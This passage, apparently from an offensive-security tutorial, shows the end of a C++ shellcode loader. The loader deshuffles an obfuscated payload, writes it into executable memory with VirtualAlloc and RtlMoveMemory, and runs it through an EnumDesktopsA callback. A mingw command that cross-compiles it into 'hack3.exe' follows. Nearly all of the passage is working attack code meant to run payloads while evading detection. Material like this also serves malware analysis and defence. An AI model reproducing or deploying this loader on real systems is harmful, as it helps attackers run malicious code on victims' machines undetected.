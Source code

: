 ```cpp
    return 1;
  }
  fclose(shuffled_fp);

  // deshuffle the data and run it directly
  char* deshuffled_data = deshuffle_bytes(shuffled_data, shuffled_size, seed);
  if (deshuffled_data == NULL) {
    return 1;
  }

  printf("deshuffled payload:\n");
  for (int i = 0; i < shuffled_size; i++) {
    printf("%02x ", deshuffled_data[i]);
  }
  printf("\n\n");

  // allocate memory and copy deshuffled data
  LPVOID mem = VirtualAlloc(NULL, shuffled_size, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
  if (mem == NULL) {
    perror("VirtualAlloc failed");
    free(deshuffled_data);
    return 1;
  }
  RtlMoveMemory(mem, deshuffled_data, shuffled_size);

  // run the deshuffled payload
  EnumDesktopsA(GetProcessWindowStation(), (DESKTOPENUMPROCA)mem, NULL);

  // free allocated memory
  free(deshuffled_data);
  return 0;
}
```

### demo 3

Let’s go to see everything in action. Compile it (in my `linux` machine):    

```bash
x86_64-w64-mingw32-gcc -O2 hack3.c -o hack3.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc
```
